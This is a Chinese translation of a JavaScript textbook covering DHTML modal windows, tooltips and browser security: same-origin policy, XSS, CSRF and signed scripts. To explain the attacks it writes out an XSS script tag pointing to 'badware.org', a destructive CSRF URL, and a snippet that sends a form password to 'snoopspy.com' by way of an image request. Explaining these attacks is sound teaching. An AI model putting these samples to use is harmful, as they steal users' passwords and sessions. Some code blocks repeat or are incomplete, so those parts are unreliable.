另一个局限性存在 Internet Explorer `7+` 中：无法设置已具有 alpha 通道的 24 位图像（PNG 图形）的透明度。尝试这样做会导致透明度 `<100%` 的区域出现难看的黑色边缘。你需要注意的最后一种情况是 Internet Explorer 中非常大的半透明区域。出于某些原因，如果你尝试渐变的对象太大，透明度设置将不起作用；相反，你将得到一个完全不透明或不可见的区域。

### Internet Explorer 和 32 位图像

`便携式网络图形` (`PNG`) 是一种所有现代浏览器都支持的多功能图像格式。Internet Explorer `6` 原生支持 PNG，但它没有实现 PNG `alpha 通道`，即允许图像部分不透明的变变透明度功能。这种功能对于制作诸如精美的阴影等效果非常有用。在 `IE7` 及更高版本中，现在原生支持 alpha 通道，同时也支持向兼容的过滤器技术使其在 `IE6` 中运行。

要加载支持 alpha 通道的 32 位 PNG 并显示 alpha 通道，请使用 `filter` CSS 属性加载 `DirectX AlphaImageLoader` 过滤器。将 `src` 属性设置为图像的 `绝对路径名称`。如果你想调整图像大小，也可以 `sizingMethod` 设置为 `scale`。这非常像使用图像作为背景而不是仅仅使用 `img` 元素：

```css
filter: progid:DXImageTransform.Microsoft.AlphaImageLoader(src='varyAlpha.png');
```

基于浏览器编写一个原生支持普通 `backgroundImage` 和 `filter` 实现 PNG 的工具函数是一件简单的事。以下是一个示例：

```html
<head>
    <title>透明度</title>
    <script type="text/javascript">
    function loadAlphaImage(imgSrc, width, height) {
        var img = document.createElement("div");
        img.style.width = width + "px";
        img.style.height = height + "px";
        if (document.attachEvent) {
            // IE
            img.style.filter = 'progid:DXImageTransform.Microsoft.AlphaImageLoader(src=\'' + imgSrc + '\', sizingMethod=\'scale\')';
        } else {
            // Standard
            img.style.backgroundImage = "url(" + imgSrc + ")";
        }
        document.body.appendChild(img);
        return img;
    }
    </script>
</head>
<body>
</body>
```

## 模态窗口

```html
<button onclick="DisplayWindow('windowContents')">启动模态窗口</button>
<div style="display:none; padding:20px;" id="windowContents">
    <h1>关于</h1>
    <p>模态窗口 v1.0</p>
    <button onclick="window.currentModalWindow.close()">关闭</button>
</div>
```

我在这里所做的另一件事是创建了一个隐藏的 `div`，其中包含了要在窗口中显示的内容。我设置了 `display:none`，这样它默认在页面上是不可见的。我还给这个 `div` 分配了一个 `ID`，以便于引用。`div` 内部还有另一个按钮，稍后将关闭模态窗口。我稍后会详细解释它是如何运作的。

目前，该页面并没有做什么。如果我点击 `Launch Modal Window` 按钮，将会抛出一个 JavaScript 错误，因为我还没有定义 `DisplayWindow()` 函数。在做之前，让我们开始为该组件编写一个类。我们把这个类命名为 `modalWindow()`。我需要创建一个构造函数，并允许用户设置窗口的内容。在这种情况下，我们的内容将是页面上的那个隐藏 `div`。

```javascript
// modalWindow class
function modalWindow(contents) {
    // 创建自身的引用
    var that = this;
```

我假设对 `contents` 的引用是有效的。在确定窗口的宽度和高度之前，我需要确保 `contents` 的 `display` 为 `block` 但 `visibility` 为 `hidden`。我这样做是因为只有当它被渲染到 DOM 时，我才能读取它的宽度和高度。保持 `visibility:hidden` 可以防止用户看到它，而设置 `position:absolute` 则可以确保我的任何操作都不会导致 DOM 的重流或发生任何变化。

```javascript
// 让内容对象隐藏但渲染，以便我测量它的尺寸
contents.style.position = "absolute";
contents.style.visibility = "hidden";
contents.style.display = "block";
```

现在我可以安全地测量内容的宽度和高度，从而知道该把窗口做得多大。

```javascript
// 获取内容 div 的尺寸
this.width = contents.offsetWidth;
this.height = contents.offsetHeight;
```

早些时候，我提到需要一个与页面一样大的 `div`，以防止用户在我不让他们操作之前点击或与模态窗口下方的元素交互。现在来处理这个问题。我将使用 `document.createElement()` 生成一个 `div` 元素并设置它的一些 CSS。

```javascript
// 首先创建一个半透明的输入阻塞层覆盖页面
var iBlockr = document.createElement("div");
iBlockr.style.position = "absolute";
iBlockr.style.top = "0px";
iBlockr.style.left = "0px";
iBlockr.style.backgroundColor = "#000";
iBlockr.style.zIndex = 1000;
setOpacity(iBlockr, 0.5); // 使其变为半透明
```

注意我最后做的最后件事，将 `div` 的透明度设置为 50%。这使用了我之前编写并包含在外部 `utils.js` 文件中的工具函数 `setOpacity()`。还要注意我将 `div` 的 `zIndex` 设置为 `1000`。这个数字是任意的，但非常重要，因为我稍后将定位窗口的内容（`contents`），并希望它显示在最上方。

接下来，我将对 `iBlockr` `div` 进行定位，使其占据文档的整个表面。为了做到这一点，我将重用在本章之前编写的 `getWindowGeometry()` 工具函数。

```javascript
// 获取文档和窗口的尺寸并用它调整输入阻塞层的大小
var windowGeometry = getWindowGeometry();
iBlockr.style.width = windowGeometry.bodyWidth + "px";
iBlockr.style.height = windowGeometry.bodyHeight + "px";
```

注意，如果我现在关闭这个构造函数并开始使用它，我*不会*看到我创建的那个 `div`，因为我还没有把它添加到 DOM 中。目前它只是停留在内存中，等待我对它进行某种操作。稍后我会处理这一点。现在，让我们继续构建我之前提到的 `iframe` 垫片（shim）。

`iframe` 垫片将有两个作用。首先，它将成为窗口本身的背景，这样内容就能清晰地显示。此外，正如我之前提到的，因为它是一个 `iframe`，它有一个独特的属性，可以遮盖某些否则会“穿透”出来的输入元素。让我们创建 `iframe` 节点并设置它的位置和大小：

```javascript
// 创建窗口垫片以阻塞选择框并为窗口本身创建一个不透明背景
var shim = document.createElement("iframe");
shim.style.position = "absolute";
shim.frameBorder = "0";
shim.style.top = (windowGeometry.scrollY + ((windowGeometry.windowHeight - this.height) / 2)) + "px";
shim.style.left = (windowGeometry.scrollX + ((windowGeometry.windowWidth - this.width) / 2)) + "px";
shim.style.width = this.width + "px";
shim.style.height = this.height + "px";
shim.style.zIndex = 2000;
shim.style.backgroundColor = "#FFF";
```

现在我可以安全地测量内容的宽度和高度，从而知道该把窗口做得多大。计算 `top` 和 `left` 的公式非常简单：从窗口的尺寸中减去这些值，然后除以 2 以居中。最后将 `zIndex` 设置为 `2000`，比 `iBlockr` 大，这意味着它将显示在最上方。

接下来将定位 `iBlockr` `div` 以占据文档的整个表面。为了做到这一点，我将重用在本章之前编写的 `getWindowGeometry()` 工具函数。

```javascript
// 获取文档和窗口的尺寸并用它调整输入阻塞层的大小
var windowGeometry = getWindowGeometry();
iBlockr.style.width = windowGeometry.bodyWidth + "px";
iBlockr.style.height = windowGeometry.bodyHeight + "px";
```

注意，如果我现在关闭这个构造函数并开始使用它，我*不会*看到我创建的那个 `div`，因为我还没有把它添加到 DOM 中。目前它只是停留在内存中，等待我对它进行某种操作。稍后我会处理这一点。现在，让我们继续构建我之前提到的 `iframe` 垫片。

`iframe` 垫片将有两个作用。首先，它将成为窗口本身的背景，这样内容就能清晰地显示。此外，正如我之前提到的，因为它是一个 `iframe`，它有一个独特的属性，可以遮盖某些否则会“穿透”出来的输入元素。让我们创建 `iframe` 节点并设置它的位置和大小：

```javascript
// 创建窗口垫片以阻塞选择框并为窗口本身创建一个不透明背景
var shim = document.createElement("iframe");
shim.style.position = "absolute";
shim.frameBorder = "0";
shim.style.top = (windowGeometry.scrollY + ((windowGeometry.windowHeight - this.height) / 2)) + "px";
shim.style.left = (windowGeometry.scrollX + ((windowGeometry.windowWidth - this.width) / 2)) + "px";
shim.style.width = this.width + "px";
shim.style.height = this.height + "px";
shim.style.zIndex = 2000;
shim.style.backgroundColor = "#FFF";
```

剩下的就是提供一种关闭窗口的方法。我将这个方法命名为 `close()`：

```javascript
// 关闭窗口
this.close = function() {
    // 移除阻塞层和垫片
    document.body.removeChild(iBlockr);
    document.body.removeChild(shim);
    // 隐藏内容
    contents.style.display = "none";
    window.currentModalWindow = null;
}
```

最后的任务是填充按钮引用的 `DisplayWindow()` 函数，以创建 `modalWindow()` 的实例并调用 `display()`：

```javascript
function DisplayWindow(windowContents) {
    var contentsObj = document.getElementById(windowContents);
    // 创建 modalWindow 的实例
    var mW = new modalWindow(contentsObj);
    mW.display();
}
```

在浏览器中查看时，窗口看起来将如图 16-13 所示，完美地居于屏幕中心，并位于所有页面内容之上。

完整的 `modalWindow` 类和示例可以在下面的代码块中找到：

```html
<html>
<head>
    <title>模态窗口测试</title>
    <script type="text/javascript" src="utils.js"></script>
    <script type="text/javascript">
// modalWindow class
function modalWindow(contents) {
    // 创建自身的引用
    var that = this;
```

```javascript
// 将 contents 对象隐藏但保持渲染，以便我测量其尺寸
contents.style.position = "absolute";
contents.style.visibility = "hidden";
contents.style.display = "block";

// 获取 contents div 的尺寸
this.width = contents.offsetWidth;
this.height = contents.offsetHeight;

// 首先创建一个半透明的输入阻塞遮罩层来覆盖页面
var iBlockr = document.createElement("div");
iBlockr.style.position = "absolute";
iBlockr.style.top = "0px";
iBlockr.style.left = "0px";
iBlockr.style.backgroundColor = "#000";
iBlockr.style.zIndex = 1000;
setOpacity(iBlockr, 0.5); // 变为半透明

// 获取文档和窗口的尺寸并用其调整阻塞遮罩层的大小
var windowGeometry = getWindowGeometry();
iBlockr.style.width = windowGeometry.bodyWidth + "px";
iBlockr.style.height = windowGeometry.bodyHeight + "px";

// 创建 Window shim 以阻塞选择框并为窗口本身创建一个不透明背景
var shim = document.createElement("iframe");
shim.style.position = "absolute";
shim.frameBorder = "0";
shim.style.top = (windowGeometry.scrollY + ((windowGeometry.windowHeight - this.height) / 2)) + "px";
shim.style.left = (windowGeometry.scrollX + ((windowGeometry.windowWidth - this.width) / 2)) + "px";
shim.style.width = this.width + "px";
shim.style.height = this.height + "px";
shim.style.zIndex = 2000;
shim.style.backgroundColor = "#FFF";

// 此函数将显示窗口
this.display = function() {
    // 将此窗口设置为单例并保留全局引用
    window.currentModalWindow = that;
    // 将模态输入阻塞器附加文档中
    document.body.appendChild(iBlockr);
    // 将 shim 附加到文档中
    document.body.appendChild(shim);
    // 将内容移动到指定位置
    contents.style.position = "absolute";
    contents.style.top = shim.style.top;
    contents.style.left = shim.style.left;
    contents.style.visibility = "visible";
    contents.style.zIndex = 3000;
}

// 这将移除模态窗口
this.close = function() {
    // 移除输入阻塞器和 shim
    document.body.removeChild(iBlockr);
    document.body.removeChild(shim);
    // 隐藏内容窗口
    contents.style.display = "none";
    window.currentModalWindow = null;
}

function DisplayWindow(windowContents) {
    var contentsObj = document.getElementById(windowContents);
    // 创建 modalWindow 实例
    var mW = new modalWindow(contentsObj);
    mW.display();
}
```

```html
<body>
<p id="myP">Lorem ipsum dolor sit amet, consectetur elit, sed do eiusmod incididunt ut labore et dolore aliqua. Ut enim ad minim veniam, quis nostrud exercitation nisi ut aliquip ex ea commodo consequat. Duis aute irure dolor in reprehenderit in voluptate velit esse cillum nulla pariatur. Excepteur sint occaecat non proident, sunt in culpa qui officia deserunt mollit id laborum.</p>
<button onclick="DisplayWindow('windowContents')">启动模态窗口</button>
<div style="display:none; padding:20px;" id="windowContents">
    <h1>关于</h1>
    <p>模态窗口 v1.0</p>
    <button onclick="window.currentModalWindow.close()">关闭</button>
</div>
</body>
```

# 工具提示 (Tooltips)

DHTML 的另一个例子是工具提示。工具提示是出现在内容之上的微小消息窗口，让用户知道他们正在看什么。从学习的角度来看，它们是非常棒的练习素材，因为构建一个工具提示你必须整合许多 DHTML 概念，包括动画、定位和透明度。在这个示例中，我将使用我在本章前面部分写的一些实用函数，包括 `getCoords()`（它告诉我们元素的绝对位置）和 `setOpacity()`（再次设置元素的透明度）。

工具提示的一个极佳用途是表单验证。某些 Web 表单令人沮丧的地方之一是，用户在点击提交之前无法发现自己填错了。现代表单的一种常见做法是对字段进行即时验证，并在用户需要返回并重新评估其输入内容时提供实时反馈。工具提示非常适合这种场景，因为它们能吸引注意力，并在片刻后消失。

在开始之前，让我们设置一个带有非常基础表单的新文档。我还将包含一个对 `utils.js` 的外部引用，你只需想象它包含了本章前面提到的 `getCoords()` 和 `setOpacity()` 工具函数：

```html
<head>
    <title>表单工具提示</title>
    <script type="text/javascript" src="utils.js"></script>
</head>
<body onload="bindValidationToFields()">
    <h1>注册表单</h1>
    <p>所有字段均为必填！</p>
    <form>
        <p>您的姓名:<input type="text" id="name" required="true"></p>
        <p>您的邮箱:<input type="text" id="email" required="true"></p>
        <p>选择密码:<input type="password" id="pw" required="true"></p>
        <input type="submit" disabled="true" value="注册">
    </form>
</body>
```

你会注意到在 `body` 的 `onload` 事件中我调用了 `bindValidationToFields()`，这个函数还不存在。让我们设置这个函数，它将查看文档中的所有表单字段，并检查 `required` 属性。该属性是我添加到我所有文本表单字段中的一个自定义属性。// 通过查找 HTML 属性 "required" 来绑定我们所有的事件

```javascript
function bindValidationToFields() {
    for (var i = 0; i < document.forms.length; i++)
        for (var x = 0; x < document.forms[i].elements.length; x++) {
            var field = document.forms[i].elements[x];
            var required = field.getAttribute("required");
            if (required && required == "true") {
                if (field.attachEvent) {
                    // IE
                    field.attachEvent("onblur", checkFieldCompleted);
                } else {
                    // W3C
                    field.addEventListener("blur", checkFieldCompleted, false);
                }
            }
        }
}
```

当我找到它时，我会挂载对 `checkFieldCompleted()` 函数的调用，现在来定义它：

```javascript
// 检查是否需要显示工具提示
function checkFieldCompleted(e) {
    var target = e.srcElement || e.target;
    if (target.value.length == 0) {
        var newTT = new tooltip("此字段为必填!", target);
        newTT.display(2000);
    }
}
```

当用户离开一个文本字段时，会触发 `onblur` 事件并执行该函数。我从事件对象中获取表单字段本身的引用，并将其赋值给 `target`。然后，我检查输入内容的长度以判断它是否为空。由于我在这里设置的唯一要求是用户在每个字段中输入了*某些内容*，因此只要里面至少有一个字符就足够了。如果没有，它将创建一个 `tooltip` 类的实例（该类目前尚不存在），并带上一些要显示的文本。我还传递了 `target` 的引用，我将用它来定位提示框。最后，我调用一个名为 `display()` 的方法并传递了一个超时时间。此逻辑是，当超时过期后，提示框应该自动消失。

现在让我们设置 `tooltip` 类：

### The Tooltip Class

```javascript
function tooltip(text, attachToEl) {
```

正如我之前提到的，我将向这个类传递两个参数：要显示的文本和一个用于“挂载”提示框的元素。我将把提示框放置在该元素旁边，以便在视觉上清晰地看出它们是关联的。现在，我想创建一个包含文本的容器元素并为它设置一些样式。

#### Create the div that will contain the text

```javascript
var tooltipDiv = document.createElement("div");
tooltipDiv.style.position = "absolute";
// Style the tool tip and fill it with text
tooltipDiv.style.backgroundColor = "yellow";
tooltipDiv.style.padding = "2px";
var currentOpacity = 0.0;
setOpacity(tooltipDiv, currentOpacity);
tooltipDiv.innerHTML = text;
```

我设置了 `div` 的 `innerHTML` 属性，这将元素显示我想显示的文本。我还使用了在本章节稍早编写的 `setOpacity()` 工具函数设置了透明度。在将 `div` 放置在页面之前，我需要知道目标元素（表单字段）*在哪里*，以便它不会重叠但保持接近。

#### Find the coordinates of the element we are attaching it to

```javascript
var boxToAttachTo = getCoords(attachToEl);
tooltipDiv.style.left = boxToAttachTo.right + 10 + "px";
tooltipDiv.style.top = boxToAttachTo.top + "px";
```

这应该将 `div` 位于表单字段的右侧。接下来，我想创建一个私有属性，用于保存动画的计时器对象。这个提示框在出现时会淡入，在我让它消失时会淡出。为了防止它们相互干扰，应该有一个单一的全局计时器对象，我现在就创建它。

#### Create a timer object

```javascript
var timerObj = null;
```

淡入和淡出提示框的行为将放在两个私有函数内部，这两个函数会在动画的每一帧被反复调用。它们将共享同一个计时器对象：

#### This private function will fade the tooltip in

```javascript
var fadeIn = function() {
    clearTimeout(timerObj);
    currentOpacity += 0.1;
    setOpacity(tooltipDiv, currentOpacity);
    if (currentOpacity < 1.0)
        timerObj = setTimeout(fadeIn, 100);
}
```

#### This private function will fade the tooltip out

```javascript
var fadeOut = function() {
    clearTimeout(timerObj);
    currentOpacity -= 0.1;
    setOpacity(tooltipDiv, currentOpacity);
    if (currentOpacity > 0.0)
        timerObj = setTimeout(fadeOut, 100);
}
```

我还没有真正编写显示或隐藏提示框的代码。由于 `fadeIn()` 和 `fadeOut()` 都是私有内部函数，它们无法从外部作为实例方法访问。相反，我可以将所有这些逻辑放在一个单一的 `display()` 方法中，并从外部调用它：

```javascript
// Display the tooltip
this.display = function(timeBeforeDisappear) {
    document.body.appendChild(tooltipDiv);
    fadeIn();
    setTimeout(fadeOut, timeBeforeDisappear);
}
```

在 `display()` 内部，我将 `tooltipDiv` 引用添加到 DOM 中，然后通过调用 `fadeIn()` 开始其淡入过程。我还设置了一个超时时间让它消失，这由参数 `timeBeforeDisappear` 控制。这实际上完成了我的 `tooltip` 类定义。现在，如果我在浏览器中运行它，我应该能看到类似于[图 16-14] 的内容。

以下是完整的示例：

```html
<head>
    <title>Form Tooltip Test</title>
    <script type="text/javascript" src="utils.js"></script>
    <script type="text/javascript">
        // The tooltip class
        function tooltip(text, attachToEl) {
            // Create the div that will contain the text
            var tooltipDiv = document.createElement("div");
            tooltipDiv.style.position = "absolute";
            // Style the tool tip and fill it with text
            tooltipDiv.style.backgroundColor = "yellow";
            tooltipDiv.style.padding = "2px";
            var currentOpacity = 0.0;
            setOpacity(tooltipDiv, currentOpacity);
            tooltipDiv.innerHTML = text;
            // Find the coordinates of the element we're attaching it to
            var boxToAttachTo = getCoords(attachToEl);
            tooltipDiv.style.left = boxToAttachTo.right + 10 + "px";
            tooltipDiv.style.top = boxToAttachTo.top + "px";
            // Create a timer object
            var timerObj = null;
            // This private function will fade the tooltip in
            var fadeIn = function() {
                clearTimeout(timerObj);
                currentOpacity += 0.1;
                setOpacity(tooltipDiv, currentOpacity);
                if (currentOpacity < 1.0)
                    timerObj = setTimeout(fadeIn, 100);
            }
            // This private function will fade the tooltip out
            var fadeOut = function() {
                clearTimeout(timerObj);
                currentOpacity -= 0.1;
                setOpacity(tooltipDiv, currentOpacity);
                if (currentOpacity > 0.0)
                    timerObj = setTimeout(fadeOut, 100);
            }
            // Display the tooltip
            this.display = function(timeBeforeDisappear) {
                document.body.appendChild(tooltipDiv);
                fadeIn();
                setTimeout(fadeOut, timeBeforeDisappear);
            }
        }
        // Check if we need to display a tooltip
        function checkFieldCompleted(e) {
            var target = e.srcElement || e.target;
            if (target.value.length == 0) {
                var newTT = new tooltip("This field is required!", target);
                newTT.display(2000);
            }
        }
        // Bind all our events by looking for the HTML attribute "required"
        function bindValidationToFields() {
            for (var i = 0; i < document.forms.length; i++)
                for (var x = 0; x < document.forms[i].elements.length; x++) {
                    var field = document.forms[i].elements[x];
                    var required = field.getAttribute("required");
                    if (required && required == "true") {
                        if (field.attachEvent) {
                            // IE
                            field.attachEvent("onblur", checkFieldCompleted);
                        } else {
                            // W3C
                            field.addEventListener("blur", checkFieldCompleted, false);
                        }
                    }
                }
        }
    </script>
</head>
<body onload="bindValidationToFields()">
    <h1>My Signup Form</h1>
    <p>All fields are required!</p>
    <form>
        <p>Your name: <input type="text" id="name" required="true"></p>
        <p>Your email: <input type="text" id="email" required="true"></p>
        <p>Select a password: <input type="password" id="pw" required="true"></p>
        <input type="submit" disabled="true" value="Sign Up">
    </form>
</body>
</html>
```

本章涵盖了大量内容，并整合了你在之前章节中学习的许多不同概念。在本章中，我涵盖了以下主题：

*   DHTML 是若干相关技术的汇合，包括 `CSS`、`DOM`、`JavaScript` 和 `HTML`。
*   了解文档和窗口的几何对于某些类型的 DHTML 行为至关重要。确定这些的方法取决于浏览器和 `DOCTYPE`。
*   获取滚动条宽度也很有用。你可以通过在屏幕外进行简单的测试并测量结果来确定它。
*   鼠标悬停（Rollovers）是最基本的 DHTML 操作。这些操作可以在不使用任何 `JavaScript` 的情况下实现，或者在更复杂的情况下，使用第 12 章介绍的 `mouseenter` 和 `mouseleave` 技术。
*   DHTML 组件的基石是定位。`Absolute positioning`（绝对定位）让你能够在页面上精确放置元素。我还向你展示了如何计算页面上元素的位置，无论用户使用的是哪种浏览器。
*   由于 `JavaScript` 是单线程的，你必须使用定时器来模拟线程的行为。这也是你制作流畅动画的方法：利用定时器事件之间的间隔，允许 `DOM` 更新并重绘自己。
*   你学习了颜色和透明度，以及如何让元素淡入或随时间改变颜色。
*   我向你展示了如何利用已掌握的定位、透明度和动画知识来构建两个 DHTML 组件：模态对话框和一个 `tooltip` 类。

在第 17 章中，我将深入研究 `JavaScript` 安全模型。我将论及签名脚本、同源策略（Same Origin Policy）以及各种浏览器的安全策略。

# 17 JavaScript 安全

浏览器是你能想象的控制最严格的开发环境之一。它必须是这样。`Microsoft` 和 `Netscape` 从来都没有真正信任过 Web。他们也知道，如果用户对网页可能给电脑造成的伤害产生真正的恐惧，那么这种浏览器会被以比你说出“Firefox”快的速度被抛弃。在场持续了十年的激烈浏览器大战中，厂商对推出新功能和能力保持谨慎是自然的。难怪 `Ajax` 花了多年才流行起来。尽管如此，浏览器拥有一段长期而不幸的安全漏洞历史，这在很长一段时间内给 `JavaScript` 留下了坏名，部分是实之有，部分则是归有误。现在已经有了稳定性，但对开发者的规则在不断变化。这些变化大多是对一个在很大范围内被采纳的相当一致的安全策略的细微改进。本章介绍了基于浏览器的 `JavaScript` 安全中的主要问题，包括同源策略、签名脚本、策略和区域，以及其他需要注意的各种问题。

## 安全模型

对于网页中的任何嵌入脚本技术（如 `Flash`、`Silverlight` 或 `JavaScript`），厂商都在开发者（随之用户）的自由与安全之间进行平衡。处理方式也有两种：要么在页面每次使用脚本时都警告用户，或者仅仅限制功能，使得脚本实际上无法对用户造成任何伤害。反过来，保护 Internet 免受用户侵害是另一回事，这些模型并没有很好地解决这个问题，这是开发者需要注意的。

`Netscape` 和 `Microsoft` 的选择是限制 `JavaScript` 的功能，让用户在很大程度上保证，在一切同等的情况下，他们不会被运行在页面中的脚本骚扰或其计算机受到攻击。这种安全模型借自 `Java` 世界，并对浏览器内部运行的脚本施加了一些主要限制：

*   `JavaScript` 无法直接访问文件系统。没有办法打开、删除、甚至检测文件或文件夹的存在。
*   它无法直接与网络层通信。脚本无法打开任意套字或使用熟悉的协议进行通信。
*   控制窗口本身（大小或位置）的能力受到限制。
*   运行在域 `X` 中的脚本无法与域 `Y` 中的文档交互，无论是跨帧还是通过 `Ajax` 请求。这被称为“同源策略”（Same Origin Policy）。
*   脚本无法直接访问内存或运行原生代码。
*   脚本无法安装原生程序。
*   脚本无法锁定计算机或以其他方式使其无响应。

这些边界有时被称为安全 `sandbox`（沙箱），因为在这一受控环境的四面墙内，脚本否则是不经过审计和审查的。它们在这些限制内可以随心所欲。尽管如此，脚本有许多方法可以通过有时迂曲的手段绕过规则。

## 同源策略

`JavaScript` 浏览器安全模型的核心是同源策略（Same Origin Policy），有时也称为同站策略（Same Site Policy）或单源策略（Single Origin Policy）。它首次在 `Netscape 2.0` 中引入，限制了脚本跨域访问文档内容的能力。在这种意义上，域由完整域名、端口号和协议（例如 `http`、`https`）的组合定义。

考虑以下示例。如果脚本运行在位于 `http://www.wrox.com/index.html` 的页面上，并且它向以下位置发起 `Ajax` 请求，它将根据下表获得不同程度的成功。


这不仅适用于 `Ajax` 请求，还适用于许多操作，包括：

*   访问 `iframe` 和帧的文档元素
*   操作其他浏览器窗口
*   处理 cookie
*   `XmlHttpRequest` (`Ajax`)

这并不意味着所有资源都必须来自同一源。`CSS` 文档、`JavaScript` 文件、`Flash` 电影和图像可以从任何引入。

同源策略旨在保护用户免受多种威胁。之一，它是为了提供某种保证，确保输入网页的数据都留在该域内，防止恶意脚本冒充或劫持信息或会话。然而，它在这方面仅部分有效。在 Internet Explorer 5 中，“受信任”安全区域的站点不受同源策略限制。然而，这一功能在后续版本的 Explorer 中不再可用。

### document.domain 的异常

同源策略的一个例外是脚本手动将 `document.domain` 属性设置为当前域的后缀。例如，运行在 `http://store.wrox.com` 的脚本通常在与 `http://wrox.com` 上的文档通信时会失败同源检查，但如果开发者先这样做则不会：

```javascript
document.domain = "wrox.com";
```

对于所有后续的源检查，这将是用于比较的域。同样，位于 `http://store.wrox.com` 的页面通常无法与 `http://browse.wrox.com` 的 iframe 通信，但如果两个文档都将它们的 `document.domain` 属性设置为 `wrox.com`，它们*就能*做到。然而，具有完全不同后缀的 URL（例如 `nitobi.com` 与 `foreseeresults.com`）的跨域尝试永远不会发生，即使设置两个页面的 `document.domain` 属性也是如此。

### 跨站脚本

`Cross-Site Scripting`，简称为 `XSS`，指的是向其他用户查看的其他域页面的 `DOM` 中注入脚本的行为。恶意用户可能尝试利用漏洞来存储用户的按键记录或操作，其目的是窃取信息。在过去，具有用户提交内容的网站对这些利用手段特别极易受到影响。例如，用户可以在博客上发布一条评论，其中包含类似所示的脚本块：`Nice blog! Thanks for posting that...<script type="text/javascript" src="http://badware.org/snoop.js"></script>`。当在页面上显示时，只有评论可见，但浏览器会为每个看到该评论的访问者下载外部脚本。此类脚本可以监视登录或其他屏幕内容，甚至在 `phishing` 尝试中重写 `DOM`。

#### DOM 型 XSS

在所谓的 `DOM-based` 跨站脚本漏洞中，问题出于页面本身 `JavaScript` 逻辑内部。对于这种类型的漏洞，不需要外部脚本。相反，在脚本访问 URL 参数并使用这些信息在页面上显示 HTML 的情况下，如果这些数据没有经过妥善过滤以移除 HTML 或 `JavaScript` 符号，就会存在 XSS 机会。

#### 持久型与非持久型 XSS

在持久型 XSS 漏洞中，存储或永久的内容被注入到网站的数据库或内容中（有时通过博客评论或 Wiki 内容帖子），使得它对所有查看包含违规内容的用户持续显示。这些内容可能包含外部脚本引用，或者仅仅是一段执行某种钓鱼或监视行为的内联脚本。非持久型漏洞类似于前述提到的 `DOM-based` 情况，但不会被永久存储在任何地方。像上述这样的持久型漏洞是目前最常见且最危险的 XSS 攻击形式。

#### 预防

通常，避免遭受此类 XSS 攻击的最优策略是过滤或转义所有用户输入，以移除角括号等 HTML 实体，并转义字符串中的引号。某些 Web 框架如 `ASP.NET` 在配置正确时支持对用户输入进行自动过滤。

### 跨站请求伪造

另一种常见的 Web 应用漏洞是`跨站请求伪造`。然而，尽管名称相似，但这实际上与同源策略或 `JavaScript` 本身没有直接关系。它基本上涉及向用户已登录但当前并不一定访问的站点提交命令。特别是像下面这种通过 `GET` 请求永久修改数据的站点 URL 特别容易受到此类攻击：`http://crm.com/account/?action=delete_all_users`。如果此 URL 具有删除 CRM 账户中用户的功能，且用户在访问另一个站点时已登录该 CRM 软件包，那么删除该用户数据只需要创建一个指向此 URL 的图像：``。任何允许用户仅根据浏览器 cookie 的有效性就更改数据的 Web 应用都容易受到此类利用攻击，这些攻击通常在用户可以发布图像但不能发布 JavaScript 的网络论坛上实施。开发者可以通过在每个请求的参数中要求某种类型的身份验证（而不仅依赖 cookie）来避免跨站伪造。另一种技术是检查每个请求的 `HTTP Referrer` 头部以验证请求的来源。第三种技术是严格限制 cookie 的寿命，并在用户每次发出有效请求时刷新它们。

### 寄生传输

在第 11 章中，我提到了 URL 的最大长度，范围从 Internet Explorer 的 2,083 个字符到 Opera 浏览器的 190,000 个字符以上。恶意用户可以利用这些异常长的 URL 限制，在不违反同源策略的情况下跨域传输数据。例如，恶意脚本可以秘密创建一个源自另一个域的图像新 `DOM` 节点。在该图像的 URL 中，它将编码它收集到的任何关于用户会话的信息。例如：

```javascript
var userPassword = document.forms[0].elements[0].value;
var newImg = document.createElement("img");
newImg.src = "http://snoopspy.com/?url=" + encodeURIComponent(window.location) + "&password=" + encodeURIComponent(userPassword);
document.body.appendChild(newImg);
```

要发生这种情况，用户必须首先使用之前提到的某种技术之一将脚本加载到页面中。

## 签名脚本

基于 Mozilla 的浏览器（如 Firefox）支持一种名为 `object signing` 的脚本和页面签名能力，这种方法参考了 Java 的签名方法。由如 VeriSign 等受信任签名机构颁发的有效证书可用于密封和验证脚本的来源，并赋予其更高的安全性，以执行在浏览器中原本无法的操作。签名脚本涉及获取数字签名并将其与脚本关联。在现代版本的 Netscape 和 Firefox 中，HTML 页面及其关联的脚本被打包在一个 `JAR` 文件中，并使用语法 `jar:http://bla.com/jarfilename.jar!/pagename.html` 称为一个 HTML 页面。

### 需要扩展权限的 Mozilla 特性

以下功能需要使用签名脚本和扩展权限：

*   使用除默认 `about:blank` 以外的 `about:` URL。需要 `UniversalBrowserRead` 权限。
*   使用 `history` 对象读取用户访问过的站点信息。同样需要 `UniversalBrowserRead` 权限。
*   使用 `preference` 方法获取或设置偏好值。需要 `UniversalPreferencesRead` 和 `UniversalPreferencesWrite`。
*   在 `window` 对象中，添加或删除目录栏、菜单栏、个人栏、滚动条、状态栏或工具栏。
*   使用 `enableExternalCapture` 捕捉同源之外文档中的页面事件。应跟进 `captureEvents`。
*   无条件关闭当前浏览器窗口。
*   将窗口移出屏幕外。
*   打开新窗口，或将现有窗口调整大小为小于 100x100 像素或大于可视屏幕区域。
*   使用 `titlebar=no` 打开不带标题栏的新窗口。
*   使用 `alwaysRaised`、`alwaysLowered`、`z-lock` 打开新的浏览器窗口。

### Internet Explorer 中的签名脚本

Microsoft 支持一种名为 `Authenticode` 的签名方法，但它不能用于 `JavaScript` —— 仅用于 Java Applets、ActiveX 和其他插件。此外，在普通的基于 Web 的 `JavaScript` 中，没有方法赋予脚本高级权限来执行你在 Firefox 中可以的操作，除非使用 `HTA`（超文本应用程序），但 HTA 并非基于 Web 的，且对大多数编写 Web 应用的人来说并不实用。

## 安全策略与区域

Firefox 和 Internet Explorer 等浏览器支持`区域`或`策略`的概念，这些策略本质上对特定站点提供了细粒度的权限控制。Safari、Chrome 和 Opera 提供了某些权限控制，但没有任何可以根据访问位置进行更改的分组或策略文件。通过配置这些策略，你可以为某些脚本赋予高级权限并限制其他脚本。

Firefox 浏览器基于 Mozilla 代码库构建，它使用可配置的安全策略文件，允许用户为不同的网站设置不同的规则。与 Internet Explorer 的方法不同，这些策略是配置在文本文件中的，并且提供了一个简单的 GUI 工具用于编辑。

每个安全区域都有一个名为 `user.js` 的独立配置文件，它会修改全局偏好文件 `prefs.js`。在 Firefox 中，你可以在地址栏输入 `about:config` 来查看和编辑 `prefs.js` 文件（见图 17-1）。例如，假设你想增加每个域的最大并发 HTTP 连接数（通常设置为 15）。在 `user.js` 中输入：

```javascript
user_pref("network.http.max-connections-per-server", 30);
```

图 17-1

